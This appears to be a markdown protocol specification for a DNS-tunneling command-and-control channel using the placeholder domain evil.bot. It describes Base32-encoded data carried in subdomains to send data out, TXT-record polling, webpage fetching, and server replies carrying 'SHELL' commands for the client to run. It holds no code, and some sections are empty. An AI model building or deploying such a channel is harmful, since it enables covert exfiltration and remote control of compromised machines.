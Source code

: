 # Domain

evil.bot

# CLIENT -> SERVER

## ENCODING

- Data: Base32 in subdomain
  - The whole data block is one base32 String (minimum padding)
- Commands: Plaintext
- ClientID: Plaintext


### END OF MESSAGE

- 0.[...].evil.bot

## MESSAGE

### A
#### Request ID

- Polling ohne id
- requestid.evil.bot

#### Data
- send data to server

##### Head
- 0.\<base32>\<data>.[...].\<base32>\<data>.head.data.\<ClientID>.evil.bot

#### Body

- 0.\<base32>\<data>.[...].\<base32>\<data>.body.data.\<ClientID>.evil.bot

### TXT

#### Poll

- polling
- poll.\<ClientID>.evil.bot

#### Continue

- continue data transmission
- continue.\<ClientID>.evil.bot

#### Curl

- curl a webpage
- 0.\<base32>\<webpage>.[...].\<base32>\<webpage>.curl.\<ClientID>.evil.bot


## SEQUENCE DIAGRAM


# SERVER -> CLIENT

## ENCODING

## RESPONSES

### A

#### Request ID

- 10.\<random>.\<random>.\<ClientID>

#### Data

- \<random != 10>.\<random>.\<random>.\<random>

### TXT

#### Poll

##### Noting

- empty string

##### Data

- DATA\<space>\<data>

##### shell command

- SHELL\<space>\<command>


#### Continue

##### Noting

- empty string

##### Data

- \<data>

##### shell command

- \<command>

## SEQUENCE DIAGRAM